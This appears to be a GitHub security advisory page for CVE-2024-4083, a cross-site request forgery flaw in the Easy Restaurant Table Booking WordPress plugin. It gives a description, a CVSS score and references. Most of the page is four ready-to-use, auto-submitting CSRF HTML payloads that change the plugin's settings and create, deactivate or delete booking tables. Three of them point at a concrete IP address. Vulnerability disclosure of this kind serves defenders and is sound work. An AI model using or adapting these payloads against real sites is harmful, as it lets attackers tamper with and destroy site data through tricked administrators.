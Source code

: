 ```yaml
---
layout: page
title: CVE-2024-4083
subtitle: Easy Restaurant Table Booking <= 1.0.0 - Cross-Site Request Forgery
---
```

## Description
The Easy Restaurant Table Booking plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.0. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium)  - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.0

## PoC :
```
<html>
  <!-- eneriiiiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=tbl-settings" method="POST">
      <input type="hidden" name="savesetting" value="1" />
      <input type="hidden" name="hours" value="09" />
      <input type="hidden" name="mintus" value="30" />
      <input type="hidden" name="ampm" value="am" />
      <input type="hidden" name="hours1" value="09" />
      <input type="hidden" name="mintus1" value="30" />
      <input type="hidden" name="ampm1" value="pm" />
      <input type="hidden" name="time&#95;intval" value="30" />
      <input type="hidden" name="auto&#95;confirm" value="on" />
      <input type="hidden" name="success&#95;msg" value="eneri" />
      <input type="hidden" name="date&#95;format" value="" />
      <input type="hidden" name="confirm&#95;subject" value="eneri" />
      <input type="hidden" name="confirm&#95;msg" value="eneri" />
      <input type="hidden" name="rejected&#95;sub" value="eneri" />
      <input type="hidden" name="rejected&#95;msg" value="eneri" />
      <input type="hidden" name="savesettings" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Create table
<html>
  <!-- eneriiiii -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=tbl-addtable" method="POST">
      <input type="hidden" name="action" value="newtable" />
      <input type="hidden" name="vc&#95;name" value="eneriiiiiiiiiiiiii" />
      <input type="hidden" name="capacity" value="666" />
      <input type="hidden" name="is&#95;active" value="1" />
      <input type="hidden" name="createtable" value="Add&#32;Table" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Deactive table

<html>
  <!-- eneriiii<3 -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="st" value="0" />
      <input type="hidden" name="t" value="edit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on delete table

<html>
  <!-- eneriiii -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="t" value="del" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/easy-table-booking/easy-restaurant-table-booking-100-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4083


